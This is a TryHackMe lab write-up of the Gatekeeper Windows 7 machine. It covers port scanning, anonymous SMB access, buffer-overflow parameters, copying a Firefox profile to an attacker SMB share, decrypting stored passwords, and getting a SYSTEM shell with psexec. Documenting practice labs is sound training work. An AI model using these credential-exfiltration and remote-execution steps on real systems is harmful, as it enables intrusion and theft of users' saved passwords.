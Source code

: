 ```yaml
---
title: "Gatekeeper"
date: 2024-11-17
categories:
  - TryHackMe
  - Windows
tags:
  - TryHackMe
  - Windows
---
```


# Gatekeeper

<!-- more -->

## Enumeration

```shell
$ nmap -sC -Pn -T4 --min-rate 1000 -p- 10.10.249.16 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 00:47 CET
Nmap scan report for 10.10.249.16
Host is up (0.076s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2024-11-15T22:51:11
|_Not valid after:  2025-05-17T22:51:11
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-16T18:14:30-05:00
| smb2-time: 
|   date: 2024-11-16T23:14:30
|_  start_date: 2024-11-16T22:50:40
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 0
|_clock-skew: mean: 1h04m59s, deviation: 2h53m12s, median: -35m01s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Nmap done: 1 IP address (1 host up) scanned in 195.76 seconds

```

## Initial Access

`nc 10.10.249.16 31337` reveals a program that echoes anything we enter.
If we input a large number of `A`s, it crashes, indicating this is a buffer overflow machine.
We need to retrieve the program, so let's try accessing SMB shares without credentials.

```shell
$ smbclient --no-pass -L //10.10.249.16          
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
                                                                                                                                    
$ smbclient --no-pass //10.10.249.16/Users
Try "help" to get a list of possible commands.
                     
smb: \> ls
  .                                  DR        0  Fri May 15 03:57:08 2020
  ..                                 DR        0  Fri May 15 03:57:08 2020
  Default                           DHR        0  Tue Jul 14 09:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:54:24 2009
  Share                               D        0  Fri May 15 03:58:07 2020

smb: \> cd Share
smb: \Share\> ls
  .                                   D        0  Fri May 15 03:58:07 2020
  ..                                  D        0  Fri May 15 03:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 07:27:17 2020

                7863807 blocks of size 4096. 3984765 blocks available
smb: \Share\> get gatekeeper.exe
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (22.5 KiloBytes/sec) (average 14.9 KiloBytes/sec)
smb: \Share\> exit
```

We have the file. Now, create the exploit on a Win32 machine.

- offset -> `146`
- bad chars -> `0x00`, `0x0A`
- jump address -> `080414C3`

Now we can retrieve the user flag.

## Privilege Escalation

We find a `Firefox.lnk` file in the user's desktop folder, so we attempt to extract credentials from Firefox.
Navigate to `C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles`.

On Kali, create an SMB share with `impacket-smbserver -smb2support -user 'test' -password 'test' kali \`pwd\``.

Copy the profile folder to Kali:

```shell
copy lfjfn812a.default-release z:\
```

Next, install [`firefox_decrypt`](https://github.com/unode/firefox_decrypt):

```shell
git clone https://github.com/unode/firefox_decrypt.git
                                                                                                  
python3 firefox_decrypt.py /home/kali
2024-11-17 17:44:37,595 - WARNING - profile.ini not found in /home/kali
2024-11-17 17:44:37,595 - WARNING - Continuing and assuming '/home/kali' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

With these credentials, we try `nxc`:

```shell
nxc smb 10.10.92.113 -u 'mayor' -p '8CL7O1N78MdrCIsV'
SMB         10.10.92.113    445    GATEKEEPER       [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:GATEKEEPER) (domain:gatekeeper) (signing:False) (SMBv1:True)
SMB         10.10.92.113    445    GATEKEEPER       [+] gatekeeper\mayor:8CL7O1N78MdrCIsV (Pwn3d!)
```

Using `impacket-psexec`:

```shell
$ impacket-psexec 'mayor':'8CL7O1N78MdrCIsV'@10.10.92.113 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.92.113.....
[*] Found writable share ADMIN$
[*] Uploading file FMkKbYVP.exe
[*] Opening SVCManager on 10.10.92.113.....
[*] Creating service aYIa on 10.10.92.113.....
[*] Starting service aYIa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

```shell
C:\Windows\system32> cd C:\Users\mayor\desktop
 
C:\Users\mayor\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\mayor\Desktop

05/14/2020  08:58 PM    <DIR>          .
05/14/2020  08:58 PM    <DIR>          ..
05/14/2020  08:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,385,642,496 bytes free

C:\Users\mayor\Desktop> type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}
```
